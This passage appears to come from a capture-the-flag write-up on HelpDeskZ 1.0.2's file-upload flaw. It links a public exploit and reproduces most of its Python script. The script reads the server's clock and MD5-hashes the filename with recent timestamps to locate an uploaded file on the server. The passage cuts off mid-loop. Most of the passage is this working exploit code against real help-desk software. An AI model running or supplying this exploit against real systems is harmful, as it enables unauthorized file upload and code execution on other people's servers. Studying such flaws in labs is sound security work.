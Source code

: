 While the provided PoC script in the entry should work, I found this script to be easier to use and understand:

https://github.com/b4rt00/helpdeskz-1.0.2-file_upload/blob/main/exploit.py

Largely it consists of running the script to generate the filename using the process described above, let's break down the script to we can make sure we understand:

source: https://github.com/b4rt00/helpdeskz-1.0.2-file_upload/blob/main/exploit.py

``` python
#!/usr/bin/env python3
import requests as r
from sys import argv, exit
from datetime import datetime as dt, timezone as tz
from hashlib import md5

# Runtime settings
interval = 120
server_tz = tz.utc
upload_dir = '/uploads/tickets'

# Colorful output
class color:
    green = '\033[92m'
    yellow = '\033[93m'
    red = '\033[91m'
    end = '\033[0m'

# Get current time on server in epoch format
def get_server_time() -> int:
    try: res = r.get(base_url)
    except: handle_conn_err()
    return int(dt.strptime(res.headers['date'], '%a, %d %b %Y %H:%M:%S %Z').replace(tzinfo=server_tz).timestamp())

# Create an MD5 hash of a string
def hash(data: str) -> str:
    return md5(data.encode()).hexdigest()

# Handle connection error
def handle_conn_err() -> None:
    print('Could not establish connection with the server.')
    exit(1)

# Parse arguments
if len(argv) == 3:
    base_url = argv[1]
    file = argv[2]
else:
    print('Usage: ./exploit.py <url> <file>')
    exit(1)

# Extract extension from filename
ext = file.rsplit('.',1)[1]

# Get current timestamp from the server
server_time = get_server_time()

# Iterate
for i in range(interval):
    # Create filename
    data = f'{file}{server_time - i}'
    filename = f'{hash(data)}.{ext}'

    # Check if file exists
```